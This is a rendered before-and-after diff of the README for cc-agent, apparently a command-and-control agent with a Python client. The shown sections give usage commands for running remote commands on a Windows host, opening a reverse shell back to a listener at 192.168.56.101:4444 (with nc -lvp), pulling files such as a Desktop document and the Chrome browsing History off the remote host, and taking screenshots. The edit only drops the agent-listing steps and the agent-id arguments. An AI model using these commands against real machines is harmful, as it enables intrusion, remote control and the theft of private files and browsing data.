

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change printed below. Shown: that part at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -93,32 +93,16 @@ You first need to setup the token variable. On linue just type the same value th
 ```bash
 export AGENT_TOKEN="Azerty112345678"
 ```
-Before to be able to send command to your agent your need to know which agent connected back to your server. The following command will output all the agent connected to your server:
-```bash
-python client.py --list-agents
-```
-That will display the agent unique uid name like under the agent ID:
-```bash
-[+] Using HTTP: http://192.168.56.101:5000
-✅ 1 agent(s) connected:
-
-• Agent ID: windows11-test0_63f53f570a475ae3
-  IP: 192.168.56.10
-  Last Seen: 2025-10-29T14:44:00.522092Z
-```
-You can than run all the command you want using the unique agent id.
 The agent support the execution of remote command. You can execute the command and retrieve the result of the command.
 Use the Python client to submit commands to the server:
 ```bash
-python client.py --command "ipconfig /all" --agent-id "windows11-test0_63f53f570a475ae3"
-
+python client.py --command "ipconfig"
 ```
 
 To initiate a shell session, submit the special "shell" command:
 Replace the ip after the shell with your call back ip the port can be changed too.
 ```bash
-python client.py --command "shell 192.168.56.101:4444" --agent-id "windows11-test0_63f53f570a475ae3"
-
+python client.py --command "shell 192.168.56.101:4444"
 ```
 
 Ensure you have a listener running on the specified port before initiating the reverse shell:
@@ -127,35 +111,21 @@ nc -lvp 4444
 ```
 
 ## Collect agent command results
-Before to be able to send command to your agent your need to know which agent connected back to your server. The following command will output all the agent connected to your server:
-```bash
-python client.py --list-agents
-```
-That will display the agent unique uid name like under the agent ID:
-```bash
-[+] Using HTTP: http://192.168.56.101:5000
-✅ 1 agent(s) connected:
-
-• Agent ID: windows11-test0_63f53f570a475ae3
-  IP: 192.168.56.10
-  Last Seen: 2025-10-29T14:44:00.522092Z
-```
-You can than run all the command you want using the unique agent id.
 An id will be provided once a command has be run using the client. To retrieve the command results use the following command:
 ```bash
-python client.py --get-results --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --get_result "1"
 ```
 
 ### Download file from the remote host
 The agent support downloading file from the remote host.
 To initiate a file to be downloaded just specify the path to the file on the remote host and the filename:
 ```bash
-python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx" --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx"
 ```
 The file will be downloaded on the agent server and stored on inside a local folder named received_file.
 To download file which does contain space on the path please use the following synthax
 ```bash
-python client.py --command 'download "C:\Users\vboxuser\AppData\Local\Google\Chrome\User Data\Default\History" History' --agent-id "windows11-test0_63f53f570a475ae3"
+python client.py --command 'download "C:\Users\vboxuser\AppData\Local\Google\Chrome\User Data\Default\History" History'
 ```
 ### Take a screenshot on the remote host
 The agent support taking a screenshot
````
Also changed, not shown: other parts of README.md (+44 -6 lines).
